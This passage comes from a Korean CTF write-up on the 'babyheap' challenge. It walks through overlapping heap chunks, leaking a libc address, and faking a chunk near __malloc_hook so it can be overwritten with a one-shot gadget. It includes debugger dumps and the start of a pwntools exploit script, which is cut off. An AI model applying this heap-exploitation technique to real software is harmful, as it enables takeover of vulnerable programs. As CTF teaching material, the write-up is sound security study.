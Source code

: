```
0x555555757140:	0x0000000000000000	0x0000000000000000
0x555555757150:	0x0000000000000000	0x0000000000020eb1
```

보시면 `idx 4` = `small bin`, `idx 2` = `fast bin` 두개가 겹친것을 확인 할 수 있습니다.

이제 `small bin`을 해제하여 `FD`를 남기게 되면 `idx 2`의 데이터 영역에 남게 되고 `idx 2`를 이용하여 이를 노출 시킬 수 있습니다.

이 때, 한 가지 작업을 해야 하는 것은 지금 `small bin`이 한개 뿐 이기 때문에, 해제를 해도 `FD`가 남지 않게 됩니다. 따라서 `FD`를 남기게 하기 위해 더미 `small bin`을 하나 생성하고 해제 합니다.

그리고 `idx 2`를 하게 되면 `FD`가 노출 되게 되고, 이를 이용하여 `libc base 주소`, `one_shot gadget`주소를 얻을 수 있습니다.

이제, 실행 흐름을 바꿔야 하는데 `malloc`과 `free`에는 이러한 실행 흐름 변경을 위한 트릭이 존재하는데 바로 `__malloc_hook`과 `__free_hook`입니다.

이 두 가지 훅 주소는 포인터를 갖으며, 만약 NULL이 아닌 경우 해당 포인터를 함수 포인터로 사용하게 됩니다. 따라서, 우리는 이 둘 중 하나의 포인터를 `one_shot gadget`주소로 변경하고 해당 함수를 호출해 주면 됩니다.

여기서는 `__malloc_hook`을 사용해 보도록 하겠습니다. `__malloc_hook`의 위치는 `main_arena - 0x10`에 위치합니다.

먼저, `__malloc_hook` 근처 메모리를 보도록 하겠습니다.

```
pwndbg> x/40gx 0x7ffff7dd1b20-0x40
0x7ffff7dd1ae0 :	0x0000000000000000	0x0000000000000000
0x7ffff7dd1af0 :	0x00007ffff7dd0260	0x0000000000000000
0x7ffff7dd1b00 :	0x00007ffff7a92e20	0x00007ffff7a92a00
0x7ffff7dd1b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b20 <main_arena>   :	0x0000000000000000	0x0000000000000000
```

`__malloc_hook`을 덮어 쓰기 위해서 약간의 문제가 생깁니다. `__malloc_hook` 위치를 덮어 쓰기 위해, 이 위치의 `-0x10` 위치에 malloc이 되어야 하고 `-0x08`위치에 할당하는 사이즈가 있어야 하는데, 메모리 덤프 내용은 너무 크거나 0으로 되어 있어서 적절한 값을 찾기가 어렵습니다.

여기서의 트릭은 주소를 약간 비틀어서 `0x7f`를 사이즈로 오게끔 하여 할당하는 방법입니다.

```
pwndbg> x/40gx 0x7ffff7dd1aed
0x7ffff7dd1aed:	0xfff7dd0260000000	0x000000000000007f
0x7ffff7dd1afd:	0xfff7a92e20000000	0xfff7a92a0000007f
0x7ffff7dd1b0d:	0x000000000000007f	0x0000000000000000
0x7ffff7dd1b1d:	0x0000000000000000	0x0000000000000000
```

만약, 0x6X 사이즈를 할당 한다면 해더에 존재하는 사이즈는 0x7X가 되어야 합니다. `0x7ffff7dd1aed`에 할당 한다고 가정 하면 이 위치의 `+0x8`이 `0x7f`가 되어 정확하게 할당이 될 수 있고, 약간의 더미를 추가하여 `__malloc_hook (0x7ffff7dd1b10)`을 덮어 쓸수 있습니다.

그 이후로는 `__malloc_hook`을 `one_shot`으로 덮어 쓰고, malloc을 일으키는 동작을 하게 되면 쉘을 얻을 수 있게 됩니다.

```python
from pwn import *

context(arch='amd64', os='linux')

target = "./babyheap"

p = process(target)

def fn_alloc(size):
	p.sendline("1")
	print p.recv()

	p.sendline(str(size))
	print p.recv(timeout=0.5)

def fn_free(idx):
	p.sendline("3")
	print p.recv()

	p.sendline(str(idx))
```